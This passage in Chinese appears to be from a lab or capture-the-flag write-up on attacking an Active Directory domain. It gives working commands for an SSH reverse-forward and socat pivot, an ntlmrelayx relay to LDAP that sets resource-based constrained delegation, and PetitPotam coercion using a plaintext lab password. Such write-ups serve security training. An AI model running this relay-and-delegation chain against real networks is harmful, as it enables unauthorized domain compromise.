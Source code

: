 需要注意的是

**由于 SSH 的反向端口在转发监听的时候只会监听 127.0.0.1，所以这里需要稍微改动**

即使反向在转发 79 端口指定监听全部，端口 79 仍绑定在`127.0.0.1`。

因此我们可以多加一条，将流量`0.0.0.0:80`转发到`127.0.0.1:79`，再反向转发回客户端本地的 80，变相使得 80 监听在`0.0.0.0`

```bash
ssh -i id_rsa root@39.99.243.184 -D SOCKS 代理 IP:PORT -R \*:79:127.0.0.1:80
nohup socat TCP-LISTEN:80,fork,bind=0.0.0.0 TCP:localhost:79 &
```

接下来本地开启`ntlmrelayx`，利用前面抓到的`XR-Desktop`作为恶意账户设置 RBCD

```bash
proxychains python3 ntlmrelayx.py -t ldap://172.22.11.6 --no-dump --no-da --no-acl --escalate-user 'xr-desktop$' --delegate-access
```

[![](assets/1705989181-c256007c547ae0a1ea0db86706f0572b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240122170110-c975b5bc-b904-1.png)

接着使用`PetitPotam`触发`XR-LCM3AE8B`强制认证到`172.22.11.26`

```bash
proxychains python3 PetitPotam.py -u yangmei -p 'xrihGHgoNZQ' -d xiaorang.lab ubuntu@80/pwn.txt 172.22.11.26
```
